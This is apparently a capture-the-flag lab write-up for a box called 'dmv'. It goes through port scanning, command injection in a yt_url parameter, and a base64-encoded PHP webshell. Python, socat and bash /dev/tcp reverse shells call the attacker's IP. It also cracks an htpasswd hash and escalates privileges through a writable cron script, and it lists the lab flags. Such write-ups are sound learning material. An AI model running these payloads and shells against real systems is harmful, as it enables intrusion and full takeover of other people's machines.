 # Enumeration

Nmap:
```bash
nmap -v -Pn -p- -T4 -oN tcp_all.nmap 10.10.198.252

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## HTTP

![[Pasted image 20240507084936.png]]

Convert 'test':
![[Pasted image 20240507085649.png]]

/admin
![[Pasted image 20240507085603.png]]

# Initial foothold


Looks like the *yt_url* parameter is vulnerable to command injection:
![[Pasted image 20240507091208.png]]

Need to escape spaces with `$IFS`
## Lets pop a shell

Base64 encode:
`<?php system($_GET["cmd"]);  ?>`

and write in into `tmp/shell.php`:
```
yt_url=http%3a//127.0.0.1/`echo$IFS"PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ICA/Pg=="|base64$IFS-d>tmp/shell.php`
```

Now we can access our webshell at `http://10.10.198.252/tmp/shell.php?cmd=whoami`:
![[Pasted image 20240507094529.png]]

Interesting users:
```
root:x:0:0:root:/root:/bin/bash
[...]
dmv:x:1000:1000:dmv:/home/dmv:/bin/bash
```

System info:
```bash
Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Upgrade webshell to reverse shell

Via python:
```bash
http://10.10.118.61/tmp/shell.php?cmd=python%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.0.131%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27
```

## Upgrade reverse shell

Upload socat to `/tmp` in order to add execute permissions.

On attacker:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:7777
```

On target:
```bash
cd /tmp
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.9.0.131:7777
```


User flag (`/var/www/html/admin/flag.txt`):
`flag{0d8486a0c0c42503bb60ac77f4046ed7}`

---
## Additional content

There already was a webshell on the system :D
```bash
www-data@dmv:/var/www/html$ cat admin/index.php
```

```php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>

<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
</a>
```
=> However this pages is basic authentication protected

User 
`cat admin/.htpasswd`
=> `itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

Crack:
```bash
hashcat -m 1600 hashes.txt /usr/share/wordlists/rockyou.txt
```
=> `$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/:jessie`

With `itsmeadmin:jessie` we can now access the build in webshell:
![[Pasted image 20240507105355.png]]
# PrivEsc

Pspy64 output:
![[Pasted image 20240507103905.png]]

Modify `clean.sh` to pop a root shell. Add the following line:
`bash -i >& /dev/tcp/10.9.0.131/8888 0>&1`

Enjoy the root shell:
![[Pasted image 20240507104227.png]]

Root flag: `flag{d9b368018e912b541a4eb68399c5e94a}`